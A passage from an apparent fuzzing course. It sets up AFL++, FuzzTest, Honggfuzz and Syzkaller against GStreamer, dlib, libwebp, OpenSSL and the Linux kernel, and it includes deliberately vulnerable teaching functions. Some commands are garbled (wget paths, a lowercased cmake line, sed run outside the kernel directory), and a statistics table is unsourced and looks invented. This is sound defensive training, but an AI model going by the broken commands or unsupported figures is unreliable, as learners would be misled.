  1. Target: GStreamer's QuickTime demuxer (`qtdemux`)
  2. Seed corpus: Valid MP4 files from public datasets
  3. Instrumentation: Compiled with AFL++ and AddressSanitizer
  4. Mutation strategy: Structure-aware (understanding MP4 atoms)
  5. Result: Heap buffer overflow crash after ~48 hours of fuzzing

**Why Fuzzing Found It**:

- **Rare Input Combination**: Required specific Theora extension size values that underflow
- **Static Analysis Limitation**: Signed-to-unsigned conversion buried in complex parsing logic
- **Code Review Miss**: Integer arithmetic looked correct without considering negative values
- **Automated Testing Gap**: Unit tests didn't cover malformed Theora extensions

**The Discovery Process**:

```bash

# 1) Generate a structured MP4 seed corpus (GitHub Security Lab generator)
cd ~/tuts && git clone --depth 1 https://github.com/github/securitylab.git
cd ~/tuts/securitylab/Fuzzing/GStreamer
make
mkdir -p corpus/mp4
./generator -o corpus/mp4

# 2) Build a vulnerable GStreamer (< 1.24.10) with AFL++ + ASan
cd ~/tuts
git clone --branch 1.24.9 --depth 1 https://gitlab.freedesktop.org/gstreamer/gstreamer.git
cd gstreamer
export CC=afl-clang-fast
export CXX=afl-clang-fast++
export CFLAGS="-O1 -g"
export CXXFLAGS="-O1 -g"
sudo apt-get install -y flex bison

# NOTE: this might take a while so you can just build parts of it, not all
meson setup build-afl --buildtype=debug -Db_sanitize=address
ninja -C build-afl -j"$(nproc)"

# NOTE: you can fuzz other binaries as well to find bugs
echo core | sudo tee /proc/sys/kernel/core_pattern
afl-fuzz -i ~/tuts/securitylab/Fuzzing/GStreamer/corpus/mp4 \
         -o findings -m none -- \
         ./build-afl/subprojects/gstreamer/tools/gst-launch-1.0 \
         filesrc location=@@ ! qtdemux ! fakesink

#   - memcpy() writes the huge size, corrupting GstMapInfo and allocator function pointers
```

**Key Insight**: Fuzzing excels at finding edge cases in complex parsers that humans would never manually test. The combination of:

- Coverage-guided mutation (AFL++ exploring new code paths)
- AddressSanitizer (detecting memory corruption immediately)
- Persistent fuzzing (running for days/weeks)

...makes it more effective than manual testing for this vulnerability class.

### Key Takeaways

1. **Fuzzing finds real vulnerabilities**: Not just theoretical crashes, but exploitable bugs in production software
2. **Coverage-guided fuzzing is powerful**: AFL++ intelligently explores code paths rather than random mutation
3. **Sanitizers are essential**: ASAN, UBSAN turn subtle bugs into immediate crashes
4. **Time matters**: Many bugs require hours/days of fuzzing to discover
5. **Seed corpus quality affects results**: Starting with valid inputs helps reach deeper code paths

### Discussion Questions

1. Why did fuzzing find `CVE-2024-47606` when code review and unit testing didn't?
2. What advantages does coverage-guided fuzzing have over purely random fuzzing?
3. How do sanitizers (ASAN, UBSAN) enhance fuzzing effectiveness?
4. What types of vulnerabilities are fuzzing best suited to find? What types does it miss?
5. How can seed corpus selection impact fuzzing effectiveness?

## Day 2: Continue Fuzzing with `AFL++`

- **Goal**: Understand and apply advanced fuzzing techniques.
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 3.3 to 3.9.8).
  - _Real-World Examples_:
    - [AFL++ finds CVE-2020-9385 in ZINT Barcode Generator](https://www.code-intelligence.com/blog/5-cves-found-with-feedback-based-fuzzing) - Stack buffer overflow discovered through fuzzing
    - [AFL++ Fuzzing in Depth](https://aflplus.plus/docs/fuzzing_in_depth/) - How to effectively use afl++
    - [Suricata IDS CVE-2019-16411](https://www.code-intelligence.com/blog/5-cves-found-with-feedback-based-fuzzing) - Out-of-bounds read found via fuzzing
  - _Exercise_:
    - Experiment with different `AFL++` options (for example, dictionary-based fuzzing, persistent mode).
    - Running `AFL++` with a real-world application like a file format parser to mimic real-world scenarios.
    - Optionally, target an image or media parser so you can practice finding heap overflows and out-of-bounds reads similar to the libWebP and GStreamer bugs from Week 1.

```bash

# NOTE: you can pull older versions to guarantee vulnerable code paths
cd ~/tuts && git clone --depth 1 --branch v19.24.6 https://github.com/davisking/dlib.git
cd dlib/tools/imglab && mkdir -p build && cd build

# Configure sanitizers for better crash detection
export AFL_USE_UBSAN=1
export AFL_USE_ASAN=1
export ASAN_OPTIONS="detect_leaks=1:abort_on_error=1:allow_user_segv_handler=0:handle_abort=1:symbolize=0"

# Install dependencies
sudo apt install -y libx11-dev libavdevice-dev libavfilter-dev libavformat-dev libavcodec-dev \
libswresample-dev libswscale-dev libavutil-dev libjxl-dev libjxl-tools

# Compile with AFL++ and sanitizers
cmake -DCMAKE_C_COMPILER=afl-clang-fast \
      -DDLIB_NO_GUI_SUPPORT=0 \
      -DCMAKE_CXX_COMPILER=afl-clang-fast++ \
      -DCMAKE_CXX_FLAGS="-fsanitize=address,leak,undefined -g" \
      -DCMAKE_C_FLAGS="-fsanitize=address,leak,undefined -g" ..
make -j$(nproc)

# Prepare seed corpus
mkdir -p fuzz/image/in
cp ../../../examples/faces/testing.xml fuzz/image/in/

# TODO: try to improve the fuzzing speed using https://aflplus.plus/docs/fuzzing_in_depth/#i-improve-the-speed

# Terminal 1: Master instance
echo core | sudo tee /proc/sys/kernel/core_pattern
afl-fuzz -i fuzz/image/in -o fuzz/image/out -M Master -- ./imglab --stats @@

# Terminal 2: Slave instance (for parallel fuzzing)
afl-fuzz -i fuzz/image/in -o fuzz/image/out -S Slave1 -- ./imglab --stats @@

# Install crash analysis tools
sudo apt install -y gdb python3-pip valgrind
wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py
echo "source ~/.gdbinit-gef.py" >> ~/.gdbinit

# NOTE: there might be no crashes, either fuzz longer or go back to an older tag
CRASH=$(ls ~/tuts/dlib/tools/imglab/build/fuzz/image/out/Master/crashes/id* 2>/dev/null | head -n1)
afl-tmin -i "$CRASH" -o ~/tuts/dlib/tools/imglab/build/fuzz/image/out/Master/crashes/minimized_crash -- ./imglab --stats @@

# NOTE: there might be no crashes, either fuzz longer or go back to an older tag
CASR_URL="https://github.com/ispras/casr/releases/latest/download/casr-x86_64-unknown-linux-gnu.tar.xz"
INSTALL_DIR="$HOME/.local"
mkdir -p "$INSTALL_DIR"
wget -O "$INSTALL_DIR/casr-x86_64-unknown-linux-gnu.tar.xz" "$CASR_URL"
tar -xJf "$INSTALL_DIR/casr-x86_64-unknown-linux-gnu.tar.xz" -C "$INSTALL_DIR"
export PATH="$INSTALL_DIR/casr-x86_64-unknown-linux-gnu/bin:$PATH"  # provides casr-afl

# Now run casr-afl on the AFL++ output directory
casr-afl -i ~/tuts/dlib/tools/imglab/build/fuzz/image/out/Master -o ~/tuts/dlib/tools/imglab/build/fuzz/image/out/Master_casr_reports
```

**Expected Outputs**:

- AFL++ status screen showing increasing coverage
- Crashes appearing in `fuzz/image/out/Master/crashes/` or `fuzz/image/out/Slave1/crashes/`
- AddressSanitizer reports for memory corruption bugs

**What to Look For**:

- Crashes with `SIGSEGV` or `SIGABRT` signals
- AddressSanitizer reports showing heap buffer overflows, use-after-free, etc.
- Unique crash signatures (different stack traces)

**Troubleshooting**:

- If compilation fails: Check that all dependencies are installed
- If no crashes found: Let fuzzer run longer (hours/days for real targets)
- If crashes are false positives: Review ASAN options and adjust

### Real-World Campaign: Fuzzing Image Parsers

**Case Study - CVE-2023-4863 (libWebP Heap Buffer Overflow)**:

From Week 1, you learned about this critical vulnerability. Let's understand how fuzzing could have (and did) discover similar bugs.

- **The Target**: libWebP image decoder, used by Chrome, Firefox, and countless applications
- **Why It's Fuzzing-Friendly**:
  - Pure input-to-output: takes file bytes, produces image
  - No network/filesystem dependencies
  - Deterministic execution
  - Complex parsing logic with many edge cases

**Fuzzing Campaign Strategy**:

```bash

# Real-world fuzzing setup for image parsers
cd ~/tuts && git clone --depth 1 --branch 1.0.0 https://chromium.googlesource.com/webm/libwebp

cd libwebp && sudo apt-get -y install gcc make autoconf automake libtool

# Compile with AFL++ and all sanitizers
export CC=afl-clang-fast
export CXX=afl-clang-fast++
export AFL_USE_ASAN=1
export AFL_USE_UBSAN=1
export CFLAGS="-fsanitize=address,undefined -g"
export CXXFLAGS="-fsanitize=address,undefined -g"

./autogen.sh
./configure
make -j$(nproc)

# Create fuzzing harness
cat > fuzz_webp.c << 'EOF'
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <webp/decode.h>
#include <webp/types.h>

int main(int argc, char **argv) {
    if (argc < 2) return 1;

    FILE *f = fopen(argv[1], "rb");
    if (!f) return 1;

    fseek(f, 0, SEEK_END);
    size_t size = ftell(f);
    fseek(f, 0, SEEK_SET);

    uint8_t *data = malloc(size);
    fread(data, 1, size, f);
    fclose(f);

    // Fuzz target: decode WebP image
    int width, height;
    uint8_t *output = WebPDecodeRGBA(data, size, &width, &height);

    if (output) free(output);
    free(data);
    return 0;
}
EOF

# Compile fuzzing harness
afl-clang-fast -I./src -o fuzz_webp fuzz_webp.c \
    -L./src/.libs -lwebp -fsanitize=address,undefined -g

# Download some WebP test images
wget -q -O ~/tuts/libwebp/seeds/test1.webp https://www.gstatic.com/webp/gallery/1.webp
wget -q -O ~/tuts/libwebp/O seeds/test2.webp https://www.gstatic.com/webp/gallery/2.webp
wget -q -O ~/tuts/libwebp/O seeds/test3.webp https://www.gstatic.com/webp/gallery/3.webp

# Run AFL++ fuzzer
export LD_LIBRARY_PATH=./src/.libs:$LD_LIBRARY_PATH
afl-fuzz -i seeds/ -o findings/ -m none -d -- ./fuzz_webp @@

# Analysis: ASAN reports showing heap buffer overflows
```

**What Fuzzing Discovered**:

In the real CVE-2023-4863 case:

1. **Initial crash**: Heap buffer overflow in `BuildHuffmanTable()`
2. **Root cause**: Malformed Huffman coding data caused out-of-bounds write
3. **ASAN output**: Immediate detection of corruption with exact location
4. **Exploitability**: Function pointer hijack possible via heap corruption

**Why This Bug Survived Testing**:

- **Unit tests**: Covered valid WebP files, not malformed Huffman tables
- **Static analysis**: Complex pointer arithmetic hard to verify
- **Code review**: Bounds check looked correct in isolation
- **Fuzzing advantage**: Generated millions of mutated WebP files, including edge cases

**Parallel Fuzzing for Speed**:

```bash

# Slave instances (in separate terminals or tmux)
for i in {1..5}; do
    afl-fuzz -i seeds/ -o findings/ -S slave$i -m none -- ./fuzz_webp @@ &
done

# Bad seed corpus: random bytes
dd if=/dev/urandom of=bad_seed.webp bs=1024 count=10

# Coverage: Explores Huffman decoding, color space conversion, filters
```

**Building Effective Seed Corpus**:

```bash

# - Different color spaces (RGB, YUV, alpha channel)
wget -r -l1 -A webp https://www.gstatic.com/webp/gallery/ -P corpus/

# 2. Minimize corpus (remove redundant files)
afl-cmin -i corpus/ -o corpus_min/ -- ./fuzz_webp @@

# 3. Minimize individual files (shrink while preserving coverage)
mkdir -p corpus_tmin
for f in corpus_min/*; do
    afl-tmin -i "$f" -o "corpus_tmin/$(basename $f)" -- ./fuzz_webp @@
done

### Key Takeaways

1. **Image parsers are prime fuzzing targets**: Complex, widely-deployed, handle untrusted input
2. **OSS-Fuzz prevents 0-days**: Continuous fuzzing finds bugs before attackers
3. **Parallel fuzzing scales linearly**: 8 cores = ~8x throughput
4. **Corpus quality > corpus size**: Minimized, diverse seeds outperform large random corpus
5. **Dictionaries accelerate discovery**: Format-aware tokens reach deeper code paths faster

### Discussion Questions

1. Why are image/media parsers particularly well-suited for fuzzing compared to other software?
2. How does corpus minimization improve fuzzing efficiency without losing coverage?
3. What trade-offs exist between fuzzing speed (lightweight instrumentation) and bug detection (heavy sanitizers)?
4. Why did OSS-Fuzz find bugs in libwebp that years of production use didn't reveal?
5. How can you determine if a fuzzing campaign has reached diminishing returns and should target a different component?
6. How can you [improve](https://aflplus.plus/docs/fuzzing_in_depth/#i-improve-the-speed) fuzzing speed?

## Day 3: Introduction to Google FuzzTest

- **Goal**: Understand in-process fuzzing with FuzzTest and how to turn unit tests into coverage-guided fuzzers that actually find memory corruption bugs.
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 4.2.1 to 4.4).
  - _Online Resources_:
    - [Google FuzzTest](https://github.com/google/fuzztest) - Read the README and "Getting Started".
    - [Property-based fuzzing vs example-based testing](https://github.com/google/fuzztest#what-is-fuzztest) - Short motivation for FuzzTest.
  - _Exercises_:
    1. Set up FuzzTest in a small CMake project and run a trivial property-based test.
    2. Use FuzzTest + AddressSanitizer to rediscover a simple heap buffer overflow (Week 1 vulnerability class).
    3. Extend the fuzz target to cover a small parser-style function, similar to the image/format parsers from Days 1–2.

### Why FuzzTest in a vulnerability-focused course?

FuzzTest is a **unit-test-style, in-process fuzzing framework** from Google that:

- **Integrates with GoogleTest**: You write `TEST` and `FUZZ_TEST` side by side in the same file.
- **Uses coverage-guided fuzzing under the hood** (libFuzzer-style) but hides boilerplate harness code.
- **Works great for libraries and core logic** (parsers, decoders, crypto helpers) where you already have unit tests.
- **Is ideal for CI**: The same binary can run fast deterministic tests or long-running fuzz campaigns depending on flags.

Where AFL++/Honggfuzz are great for whole programs and black-box binaries, **FuzzTest shines when you have source code and want to fuzz individual C++ functions** directly.

### Lab 1: Set up FuzzTest and run a basic property

```bash
mkdir -p ~/tuts/first_fuzz_project && cd ~/tuts/first_fuzz_project
git clone --branch main --depth 1 https://github.com/google/fuzztest.git

cat <<EOT > CMakeLists.txt

# GoogleTest requires at least C++17
set(CMAKE_CXX_STANDARD 17)

add_subdirectory(fuzztest)

enable_testing()

include(GoogleTest)
fuzztest_setup_fuzzing_flags()
add_executable(
  first_fuzz_test
  first_fuzz_test.cc
)

link_fuzztest(first_fuzz_test)
gtest_discover_tests(first_fuzz_test)
EOT
cat <<EOT > first_fuzz_test.cc
#include "fuzztest/fuzztest.h"
#include "gtest/gtest.h"

TEST(MyTestSuite, OnePlusTwoIsTwoPlusOne) {
  EXPECT_EQ(1 + 2, 2 + 1);
}

void IntegerAdditionCommutes(int a, int b) {
  EXPECT_EQ(a + b, b + a);
}
FUZZ_TEST(MyTestSuite, IntegerAdditionCommutes);
EOT
mkdir -p build && cd build

# configure with fuzztest
cc=clang-19 cxx=clang++-19 cmake -dcmake_build_type=relwithdebug -dfuzztest_fuzzing_mode=on ..

# Run the fuzz test (short sanity run)
./first_fuzz_test --fuzz=MyTestSuite.IntegerAdditionCommutes --max_total_time=10
```

You should see FuzzTest/libFuzzer-style statistics (executions per second, coverage, etc.).
For a correct property like integer commutativity, the fuzzer should **not** find crashes.

### Lab 2: FuzzTest to find a heap buffer overflow

Now turn FuzzTest onto a deliberately vulnerable function that mimics a classic **stack / heap buffer overflow** from Week 1.

```bash
cd ~/tuts/first_fuzz_project

cat <<'EOT' > first_fuzz_test.cc
#include <cstring>
#include <string>
#include "fuzztest/fuzztest.h"
#include "gtest/gtest.h"

TEST(ArithmeticSuite, OnePlusTwoIsTwoPlusOne) {
  EXPECT_EQ(1 + 2, 2 + 1);
}

void IntegerAdditionCommutes(int a, int b) {
  EXPECT_EQ(a + b, b + a);
}
FUZZ_TEST(ArithmeticSuite, IntegerAdditionCommutes);

void VulnerableHeaderCopy(const std::string& input) {
  char header[32];

  // When input.size() > 32 and ASAN is enabled, this becomes a detectable overflow.
  std::memcpy(header, input.data(), input.size());
}

FUZZ_TEST(OverflowSuite, VulnerableHeaderCopy);
EOT

cd build

# Run only the overflow fuzz test to focus on the bug
./first_fuzz_test --fuzz=OverflowSuite.VulnerableHeaderCopy --max_total_time=20
```

**Expected result**: After a short time, FuzzTest should report a crash with an AddressSanitizer message similar to:

```text
==1066==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x76f8218731c0 at pc 0x60a5060193a2 bp 0x7ffc65c1fd10 sp 0x7ffc65c1f4d0
```

At this point you can:

- Open `first_fuzz_test.cc` and **fix the bug** by adding a length check (for example, only copying up to `sizeof(header)`).
- Rebuild and re-run the fuzz target to confirm the crash is gone.

This is exactly the same pattern as our AFL++ labs: **fuzzer + sanitizer → crash → root cause → fix**, but now entirely inside a unit test binary.

### Lab 3: Fuzzing a small parser-style function

To connect FuzzTest to the real-world parsers from Days 1–2, fuzz a tiny length-prefixed parser that can easily go wrong if you mishandle integer arithmetic.

```bash
cd ~/tuts/first_fuzz_project

cat <<'EOT' >> first_fuzz_test.cc

struct Message {
  uint8_t len;
  std::string payload;
};

Message ParseMessage(const std::string& input) {
  Message m{0, ""};
  if (input.empty()) return m;

  uint8_t len = static_cast<uint8_t>(input[0]);

  // BUG -> commenting this would cause fuzzer to find vuln
  // - If len > input.size() - 1, this will either truncate or read garbage.
  // - Here we clamp len to avoid UB, but real code often forgets this check.
  if (static_cast<size_t>(len) > input.size() - 1) {
      len = static_cast<uint8_t>(input.size() - 1);
  }

  m.len = len;
  m.payload.assign(input.data() + 1, input.data() + 1 + m.len);
  return m;
}

void ParseDoesNotCrash(const std::string& input) {
  (void)ParseMessage(input);
}

void LengthFieldRespected(const std::string& input) {
  if (input.size() < 2) return;

  uint8_t claimed_len = static_cast<uint8_t>(input[0]);
  if (static_cast<size_t>(claimed_len) > input.size() - 1) return;

  Message m = ParseMessage(input);
  EXPECT_EQ(m.len, claimed_len);
  EXPECT_EQ(m.payload.size(), claimed_len);
}

FUZZ_TEST(ParserSuite, ParseDoesNotCrash);
FUZZ_TEST(ParserSuite, LengthFieldRespected);
EOT

cd build && cmake --build . --parallel $(nproc)

# Run parser fuzz tests for a short time
./first_fuzz_test --fuzz=ParserSuite.ParseDoesNotCrash --max_total_time=15
./first_fuzz_test --fuzz=ParserSuite.LengthFieldRespected --max_total_time=15
```

**What to look for**:

- If you intentionally break the length check inside `ParseMessage` (for example, remove the `if (len > input.size() - 1)` guard - 3 lines), FuzzTest + ASAN/UBSAN should quickly find crashes or undefined behavior.
- Try modifying the parser to add more fields (flags, type bytes, nested length fields) and see how FuzzTest finds edge cases you did not think about.

### Key Takeaways

1. **FuzzTest brings fuzzing into your unit tests**: You can turn GoogleTest-style tests into coverage-guided fuzzers with `FUZZ_TEST`, using the same build system and test runner.
2. **Sanitizers are critical**: Combining FuzzTest with ASAN/UBSAN turns memory bugs (overflows, UAFs, integer issues) into immediate, reproducible crashes.
3. **Great fit for parsers and core logic**: Short, pure C++ functions (parsers, decoders, protocol handlers) are ideal FuzzTest targets, similar to the real-world parsers from Days 1–2.
4. **Properties > examples**: Expressing invariants like “never crash” or “length field matches payload” lets the fuzzer explore inputs you would never hand-write.
5. **Same workflow as other fuzzers**: Regardless of tool (AFL++, Honggfuzz, FuzzTest), the basic loop is still _fuzz → crash → triage → exploitability → fix_.

### Discussion Questions

1. In what situations would you prefer **FuzzTest** over a process-level fuzzer like **AFL++** or **Honggfuzz**, and why?
2. How would you go about converting an existing **GoogleTest** regression test into an effective `FUZZ_TEST` that can find new bugs, not just regressions?
3. Which vulnerability classes from Week 1 (e.g., buffer overflows, integer overflows, UAF) are especially well-suited to FuzzTest, and which are harder to reach with this style of in-process fuzzing?
4. How could you integrate short, time-bounded FuzzTest runs into a **CI pipeline** without making builds too slow, while still having longer campaigns on dedicated fuzzing machines?
5. When writing properties like `LengthFieldRespected`, what kinds of mistakes in the property itself might cause you to **miss real bugs** or report lots of false positives?

## Day 4: Introduction to `Honggfuzz`

- **Goal**: Understand different fuzzing methods and when to use Honggfuzz vs AFL++.
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 5.1.2 to 5.3.7).
  - _Online Resource_: [Honggfuzz](https://github.com/google/honggfuzz.git)
  - _Real-World Context_:
    - Honggfuzz is used in Google's continuous fuzzing infrastructure
    - [OSS-Fuzz uses Honggfuzz for many projects](https://google.github.io/oss-fuzz/getting-started/new-project-guide/)
    - OpenSSL has extensive fuzzing coverage - [see their fuzzing documentation](https://docs.openssl.org/3.2/man7/ossl-guide-introduction/)
  - _Exercise_: Fuzz OpenSSL server and private key parsing

```bash

# Install Honggfuzz
cd ~/soft && git clone --branch master --depth 1 https://github.com/google/honggfuzz.git
#sudo apt-get install -y binutils-dev libunwind-dev libblocksruntime-dev clang libssl-dev
sudo apt-get install -y binutils-dev libunwind-dev libblocksruntime-dev libssl-dev
cd honggfuzz && make -j$(nproc) && sudo make install

# Clone OpenSSL source
cd ~/tuts && git clone --branch openssl-3.1.2 --depth=1 https://github.com/openssl/openssl.git
cd openssl

# Configure OpenSSL for fuzzing (with all legacy protocols enabled for broader attack surface)
CC=/usr/local/bin/hfuzz-clang CXX="$CC"++ ./config \
  -DPEDANTIC no-shared -DFUZZING_BUILD_MODE_UNSAFE_FOR_PRODUCTION -O0 \
  -fno-sanitize=alignment -lm -ggdb -gdwarf-4 --debug -fno-omit-frame-pointer \
  enable-asan enable-tls1_3 enable-weak-ssl-ciphers enable-rc5 enable-md2 \
  enable-ssl3 enable-ssl3-method enable-nextprotoneg enable-heartbeats \
  enable-aria enable-zlib enable-egd

# Note: This uses Honggfuzz's example OpenSSL fuzzers
cat > build_fuzzers.sh << 'EOT'
#!/bin/bash
set -x
set -e
echo "Building honggfuzz fuzzers for OpenSSL"
for x in x509 privkey client server; do
    hfuzz-clang \
        -DBORINGSSL_UNSAFE_DETERMINISTIC_MODE \
        -DBORINGSSL_UNSAFE_FUZZER_MODE \
        -DFUZZING_BUILD_MODE_UNSAFE_FOR_PRODUCTION \
        -DBN_DEBUG \
        -DLIBRESSL_HAS_TLS1_3 \
        -O3 -g \
        -DFuzzerInitialize=LLVMFuzzerInitialize \
        -DFuzzerTestOneInput=LLVMFuzzerTestOneInput \
        -I$(pwd)/include \
        -I"$HOME"/soft/honggfuzz/examples/openssl \
        -I"$HOME"/soft/honggfuzz \
        -g "$HOME/soft/honggfuzz/examples/openssl/$x.c" \
        -o "libfuzzer.openssl-memory.$x" \
        ./libssl.a ./libcrypto.a -lpthread -lz -ldl -fsanitize=address
done
EOT

chmod +x build_fuzzers.sh
./build_fuzzers.sh

# Run Honggfuzz on OpenSSL server parser
honggfuzz --input ~/soft/honggfuzz/examples/openssl/corpus_server/ \
          -- ./libfuzzer.openssl-memory.server

# Run Honggfuzz on OpenSSL private key parser
honggfuzz --input ~/soft/honggfuzz/examples/openssl/corpus_privkey/ \
          -- ./libfuzzer.openssl-memory.privkey
```

**Success Criteria**:

- Honggfuzz compiles and installs successfully
- OpenSSL builds with fuzzing support
- Fuzzers compile without errors
- Honggfuzz starts and shows coverage statistics

**What to Look For**:

- Coverage metrics increasing over time
- Crashes in the working directory
- Different crash types (heap overflow, use-after-free, etc.)

**Note**: Real OpenSSL fuzzing often runs for days/weeks. For this exercise, run for at least 30 minutes to see initial results.

### Real-World Impact: Honggfuzz Finding TLS Vulnerabilities

**Case Study - Heartbleed-Class Bugs in TLS Implementations**:

While Heartbleed (CVE-2014-0160) predates modern fuzzing tools, similar vulnerabilities continue to be found through continuous fuzzing campaigns.

**Why TLS is Hard to Fuzz**:

- **Stateful protocol**: Must complete handshake before reaching deep logic
- **Cryptographic operations**: Random values, signatures, MACs
- **Multiple versions**: TLS 1.0, 1.1, 1.2, 1.3 with different code paths
- **Extensions**: ALPN, SNI, session tickets, early data, etc.

**Honggfuzz Advantages for Network Protocols**:

```bash

# Example: Fuzzing TLS 1.3 handshake
cat > fuzz_tls13_handshake.c << 'EOF'
#include <openssl/ssl.h>
#include <openssl/err.h>
#include <stdint.h>
#include <stddef.h>

int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    SSL_CTX *ctx = SSL_CTX_new(TLS_server_method());
    if (!ctx) return 0;

    SSL_CTX_set_min_proto_version(ctx, TLS1_3_VERSION);
    SSL_CTX_set_max_proto_version(ctx, TLS1_3_VERSION);

    BIO *in_bio = BIO_new(BIO_s_mem());
    BIO *out_bio = BIO_new(BIO_s_mem());

    SSL *ssl = SSL_new(ctx);
    SSL_set_bio(ssl, in_bio, out_bio);
    SSL_set_accept_state(ssl);

    BIO_write(in_bio, data, size);
    SSL_do_handshake(ssl);

    SSL_free(ssl);
    SSL_CTX_free(ctx);
    return 0;
}
EOF

# Compile with Honggfuzz
hfuzz-clang fuzz_tls13_handshake.c \
    -I"$HOME"/tuts/openssl/include \
    -L"$HOME"/tuts/openssl/lib \
    -lssl -lcrypto \
    -fsanitize=address,undefined \
    -o fuzz_tls13

# TODO: use a better corpus to actually find the vulnerabilities in that code
honggfuzz --input ~/soft/honggfuzz/examples/openssl/corpus_server/ \
          --threads 8 \
          --timeout 5 \
          -- ./fuzz_tls13
```

**Real Bugs Found by Protocol Fuzzing**:

From OpenSSL and other TLS implementations:

- **Buffer overflows in certificate parsing**: X.509 extension handling
- **Use-after-free in session resumption**: Ticket lifetime management
- **Integer overflows in record layer**: Length calculations
- **State confusion bugs**: Unexpected message ordering

**Example: CVE-2022-0778 (OpenSSL Infinite Loop)**:

```bash

# Fuzzing campaign that found similar bugs:
honggfuzz --input certs/ \
          --dict openssl.dict \
          --threads 16 \
          --timeout 10 \
          --rlimit_rss 2048 \
          -- ./openssl x509 -in ___FILE___ -text

# Result: Timeout on malformed EC point → DoS vulnerability
```

**Fuzzing vs Real-World Exposure**:

| Metric               | Production Use (10 years) | OSS-Fuzz (1 year) |
| -------------------- | ------------------------- | ----------------- |
| Total connections    | Billions                  | 0 (pure fuzzing)  |
| Unique inputs tested | ~1,000 (typical sites)    | Trillions         |
| Edge cases covered   | <1%                       | >90%              |
| Bugs found           | ~5 (via exploits)         | ~50               |

**Key Insight**: Fuzzing explores input space breadth that production traffic never reaches.

### Key Takeaways

1. **Honggfuzz excels at complex targets**: Multi-threaded, persistent mode, hardware-assisted coverage
2. **Protocol fuzzing requires stateful harnesses**: Must reach deep code paths beyond initial parsing
3. **Continuous fuzzing prevents regressions**: OSS-Fuzz runs 24/7, catches new bugs in code changes
4. **Cryptographic code is fragile**: Parsers for ASN.1, X.509, PEM frequently have bugs
5. **Timeout detection finds DoS bugs**: Infinite loops, algorithmic complexity issues

### Discussion Questions

1. Why does fuzzing find TLS bugs that years of production use don't reveal?
2. What makes protocol fuzzing (TLS, HTTP/2, DNS) more challenging than file format fuzzing?
3. How does hardware-assisted coverage (Intel PT) improve fuzzing effectiveness?
4. What are the limitations of fuzzing for finding cryptographic vulnerabilities vs implementation bugs?

## Day 5: Introduction to `Syzkaller`

- **Goal**: Begin kernel fuzzing with `Syzkaller`.
- **Activities**:
  - _Tool_: Install `Syzkaller` on a Linux VM.
  - _Online Resource_: [`Syzkaller` Documentation](https://github.com/google/syzkaller/blob/master/docs/linux/setup_ubuntu-host_qemu-vm_x86-64-kernel.md)
  - _Real-World Impact_:
    - [Syzkaller Dashboard](https://syzkaller.appspot.com/) - Shows thousands of bugs found by syzkaller
    - [syzkaller: Finding Bugs in the Linux Kernel](https://lwn.net/Articles/677764/) - Overview of syzkaller's impact
    - Many CVEs discovered: Check [syzkaller bug reports](https://syzkaller.appspot.com/upstream) for real examples
  - _Exercise_: Start fuzzing the Linux kernel with `Syzkaller`.

```bash

# Install kernel build dependencies
sudo apt update
sudo apt install -y make gcc flex bison libncurses-dev libelf-dev libssl-dev

# Check available tags: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/refs/tags
cd ~/soft && git clone --branch v6.8 --depth 1 git://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git kernel

# Use sed or manually edit .config
sed -i 's/# CONFIG_KCOV is not set/CONFIG_KCOV=y/' .config
sed -i 's/# CONFIG_DEBUG_INFO_DWARF4 is not set/CONFIG_DEBUG_INFO_DWARF4=y/' .config
sed -i 's/# CONFIG_KASAN is not set/CONFIG_KASAN=y/' .config
sed -i 's/# CONFIG_KASAN_INLINE is not set/CONFIG_KASAN_INLINE=y/' .config
sed -i 's/# CONFIG_CONFIGFS_FS is not set/CONFIG_CONFIGFS_FS=y/' .config
sed -i 's/# CONFIG_SECURITYFS is not set/CONFIG_SECURITYFS=y/' .config
echo 'CONFIG_CMDLINE_BOOL=y' >> .config
echo 'CONFIG_CMDLINE="net.ifnames=0"' >> .config

make olddefconfig
make -j$(nproc)

# Create VM image
sudo apt install -y debootstrap
mkdir -p ~/soft/image && cd ~/soft/image
wget https://raw.githubusercontent.com/google/syzkaller/master/tools/create-image.sh -O create-image.sh
chmod +x create-image.sh
./create-image.sh --distribution trixie --feature full

# NOTE: You might need to run this outside of the vm, you might need to change net to e1000
cd /tmp/
sudo qemu-system-x86_64 \
    -m 2G -smp 2 \
    -kernel ~/soft/kernel/arch/x86/boot/bzImage \
    -append "console=ttyS0 root=/dev/sda earlyprintk=serial net.ifnames=0" \
    -drive file=~/soft/image/trixie.img,format=raw \
    -net user,hostfwd=tcp:127.0.0.1:10021-:22 \
    -net nic,model=virtio -enable-kvm -nographic \
    -pidfile vm.pid 2>&1 | tee vm.log

# In another terminal, test SSH access
ssh -i ~/soft/image/trixie.id_rsa -p 10021 -o "StrictHostKeyChecking no" root@localhost

# Install Go
cd ~/soft
GO_VERSION="1.25.4"
wget "https://go.dev/dl/go${GO_VERSION}.linux-amd64.tar.gz"
sudo tar -C /usr/local -xzf "go${GO_VERSION}.linux-amd64.tar.gz"
export PATH=$PATH:/usr/local/go/bin

# Clone and build syzkaller
cd ~/soft && git clone --branch master --depth 1 https://github.com/google/syzkaller.git
cd syzkaller && make -j$(nproc)

# NOTE: If you are in the vm with e1000 then you don't need network_device line
cat > my.cfg << 'EOT'
{
    "target": "linux/amd64",
    "http": "127.0.0.1:56741",
    "workdir": "/home/USER/soft/syzkaller/workdir",
    "kernel_src": "/home/USER/soft/kernel",
    "image": "/home/USER/soft/image/trixie.img",
    "sshkey": "/home/USER/soft/image/trixie.id_rsa",
    "ssh_user": "root",
    "syzkaller": "/home/USER/soft/syzkaller",
    "procs": 8,
    "type": "qemu",
    "vm": {
        "count": 3,
        "kernel": "/home/USER/soft/kernel/arch/x86/boot/bzImage",
        "cmdline": "net.ifnames=0",
        "cpu": 2,
        "mem": 2048,
        "network_device": "virtio-net-pci"
    }
}
EOT

# NOTE: this might take a while, run with -debug to to identify issues
sudo ./bin/syz-manager -config=my.cfg

# Install text-based browser or use your regular browser
sudo apt install -y w3m w3m-img
